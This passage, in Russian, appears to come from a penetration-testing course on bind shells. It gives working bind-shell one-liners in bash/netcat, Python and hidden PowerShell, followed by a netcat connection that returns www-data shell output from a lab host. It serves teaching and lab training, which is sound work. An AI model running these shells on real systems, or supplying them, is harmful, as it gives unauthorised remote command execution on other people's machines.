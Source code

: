 Опять же, мы можем использовать [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md) , чтобы найти подходящую команду для запуска нашей оболочки привязки.

Примечание. Мы запустим прослушивающее соединение через порт «1234» на удаленном хосте с IP-адресом «0.0.0.0», чтобы мы могли подключиться к нему из любого места.

Ниже приведены надежные команды, которые мы можем использовать для запуска оболочки связывания:

Код: Баш

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

Код: питон

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

Код: powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

---

#### Netcat Connection

Как только мы выполним команду оболочки привязки, оболочка должна ожидать нас на указанном порту. Теперь мы можем подключиться к нему.

Мы можем использовать `netcat` чтобы подключиться к этому порту и получить соединение с оболочкой:

Типы снарядов

```shell-session
Uliam@htb[/htb]$ nc 10.10.10.1 1234

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Как мы видим, мы напрямую попадаем в сеанс bash и можем напрямую взаимодействовать с целевой системой. В отличие от `Reverse Shell`, если мы по какой-либо причине разорвем соединение с оболочкой привязки, мы сможем подключиться к нему обратно и немедленно получить другое соединение. Однако, если команда оболочки привязки будет остановлена ​​по какой-либо причине или если удаленный хост будет перезагружен, мы все равно потеряем доступ к удаленному хосту и нам придется использовать его снова, чтобы получить доступ.

---